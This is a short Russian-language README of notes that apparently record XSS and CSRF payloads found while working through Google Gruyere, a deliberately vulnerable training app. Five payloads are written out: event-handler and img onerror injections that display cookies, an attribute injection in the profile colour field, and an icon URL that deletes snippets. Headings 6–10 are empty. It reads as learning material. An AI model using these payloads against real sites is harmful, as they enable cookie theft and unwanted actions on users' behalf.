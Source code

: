 # Payloads для gruyere

[интересная фича на сайте о который знает 1% людей](https://www.youtube.com/watch?v=dQw4w9WgXcQ)

## Payload 1

При создании нового сниппета можно написать в нём `<a onmouseover="alert(document.cookie) href='#'">text</a>`, который будет выводит куки при наведении.

## Payload 2

При изменении цвета профиля можно задать цвету атрибуты onmouseover `black' onmouseover='alert(682)'`, который при наведении на него будет выводить alert. 

## Payload 3

При изменении профиля можно написать url в icon `https://google-gruyere.appspot.com/509870841862400053734264954502968465848/deletesnippet?index=0 `, который позволяет удалять сниппеты

## Payload 4

В приват сниппет можно написать любой html тег например `<img src=x onerror=alert('XSS')>`, что выведит alert на странице.

## Payload 5

В изменении иконки профиля можно вставить html тег img `<img%20src="javascript:alert(document.cookie);"></img>` - alert вывелся

## Payload 6

## Payload 7

## Payload 8

## Payload 9

## Payload 10
...
